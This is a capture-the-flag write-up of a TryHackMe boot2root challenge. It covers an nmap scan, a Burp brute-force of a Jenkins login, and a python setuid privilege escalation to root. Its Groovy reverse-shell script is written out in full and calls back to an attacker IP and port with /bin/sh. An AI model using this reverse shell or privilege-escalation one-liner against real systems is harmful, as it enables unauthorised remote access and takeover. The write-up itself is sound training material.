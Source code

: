 ```yaml
---
title: Cyber Grabs CTF 0x03 – boot2root
date: '2022-02-07'
draft: false
authors: ['thebish0p']
tags: ['Cyber Grabs CTF 0x03', 'Jenkins', 'Shell', 'System Access', 'Privilege Escalation']
summary: 'Bruteforce jenkins login page with a wordlist we find leading to system access and proceeding by escalating to root'
---
```


## boot2root

> by MrGrep
>
> Let's Start!!! Alison is a SOC analyst of TheCyberGrabs Pvt Ltd. He got some alerts that someone is trying to access the server but he is not quite sure how that attack is getting executed so he wants to hire some pentesters to check the security can you help alison?
>
> Visit here to play:- [TryHackMe Room](https://tryhackme.com/jr/cybergrabsctf2022)
>
> Flag Format: `cybergrabs{boot2root}`

This challenge was hosted on [TryHackMe](https://tryhackme.com/). We launch an instance and start by running an nmap quick scan on the machine’s IP address to check for open ports:

```
nmap -T4 -A -F 10.10.156.214
```

```
Host is up (0.16s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   closed ftp
80/tcp   open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CyberGrabs Jr CTF
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
8080/tcp open   http    Jetty 9.4.43.v20210629
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.43.v20210629)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

We start by browsing port 80 checking common files like `robots.txt` and we can find 2 interesting files:

![robots.txt](/static/images/cyber-grabs-ctf-0x03/robots.png)

As shown below `s3cret` is a wordlist and `confidential` is actually just random data encoded with Base32 with nothing useful for the challenge:

| ![s3cret](/static/images/cyber-grabs-ctf-0x03/s3cret.png) |
| :-------------------------------------------------------: |
|                         _s3cret_                          |

| ![confidential](/static/images/cyber-grabs-ctf-0x03/confidential.png) |
| :-------------------------------------------------------------------: |
|                            _confidential_                             |

| ![confidential decoded](/static/images/cyber-grabs-ctf-0x03/dec_confidential.png) |
| :-------------------------------------------------------------------------------: |
|                               _Base32 decoded data_                               |

We try running several wordlists using dirbuster but we don’t find any other directories on port 80.

We proceed by going to port 8080 which had a Jenkins login page.

![Jenkins](/static/images/cyber-grabs-ctf-0x03/jenkins.png)

First idea we had was using the wordlist provided in `s3cret` to bruteforce the login page. Jenkins default username is `admin` so we start by bruteforcing that user. Unfortunetaly that idea didn’t work.

After a lot of trial and error we go back to the challenge description and notice that the name `Alison` is mentioned so we decided to try it as a username and bruteforce it again with the `s3cret` wordlist:

![Bruteforce Burp](/static/images/cyber-grabs-ctf-0x03/burp_bf.png)

We finally found the password `elizabeth1`.

We proceed by logging in to Jenkins:

![Logged in](/static/images/cyber-grabs-ctf-0x03/logged_in.png)

We proceed by going to the script console in order to have a reverse shell on the server as shown below:

```Groovy
String host="10.11.60.43";;
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```

![Script Console](/static/images/cyber-grabs-ctf-0x03/script_console.png)

And now we have a shell:

![First shell](/static/images/cyber-grabs-ctf-0x03/first_shell.png)

We continue by stabilising the shell using `stty` as shown below:

![Stable](/static/images/cyber-grabs-ctf-0x03/stable.png)

And we manage to find the first flag in `/home/mrgrep/user.txt`. A Base32 encoded flag:

![User.txt](/static/images/cyber-grabs-ctf-0x03/user.txt.png)

![Decoded user.txt](/static/images/cyber-grabs-ctf-0x03/decoded_user.txt.png)

For the second part of the challenge, we need to get root access in order to read the `root.txt` file.

We notice that python has setuid capabilities by running `getcap`:

![getcap](/static/images/cyber-grabs-ctf-0x03/getcap.png)

This means that we can use python in order to perform a privilege escalation and get full root access by running `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`:

![Priv Escalation](/static/images/cyber-grabs-ctf-0x03/privesc.png)

Finally, we have root access and we can read the `root.txt` and get the final flag:

![Root](/static/images/cyber-grabs-ctf-0x03/rootflag.png)
